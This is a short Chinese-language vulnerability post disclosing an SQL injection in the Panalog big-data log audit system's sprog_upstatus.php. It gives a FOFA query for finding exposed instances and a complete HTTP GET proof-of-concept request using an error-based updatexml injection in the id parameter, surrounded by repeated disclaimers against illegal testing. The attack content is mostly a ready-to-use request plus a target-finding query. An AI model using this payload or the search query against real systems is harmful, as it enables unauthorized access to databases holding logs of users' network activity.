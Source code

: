 #  Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞   
 HK安全小屋   2025-05-29 14:56  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
panalog为一款流量分析,日志分析管理的一款软件。  
  
Panalog大数据日志审计系统定位于将大数据产品应用于高校、  公安、 政企、 医疗、 金融、 能源等行业之中，针对网络流量的信息进行日志留存，可对用户上网行为进行审计，逐渐形成大数据采集、 大数据分析、  大数据整合的工作模式，为各种网络用户提供服务。Panalog大数据日志审计系统sprog_upstatus.php存在SQL注入漏洞。  
  
  
影响版本：  
  
Panalog大数据日志审计系统  
  
  
FOFA:  
```
app="Panabit-Panalog"||body="Maintain/cloud_index.php"
```  
  
  
POC：  
```
GET /Maintain/sprog_upstatus.php?status=1&id=1%20and%20updatexml(1,concat(0x7e,md5(1)),0)&rdb=1 HTTP/1.1
Host: 
Connection: keep-alive
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: keep-alive
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Cookie: PHPSESSID=f8la8ttr74fkge0pttpc626p45
```  
  
  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
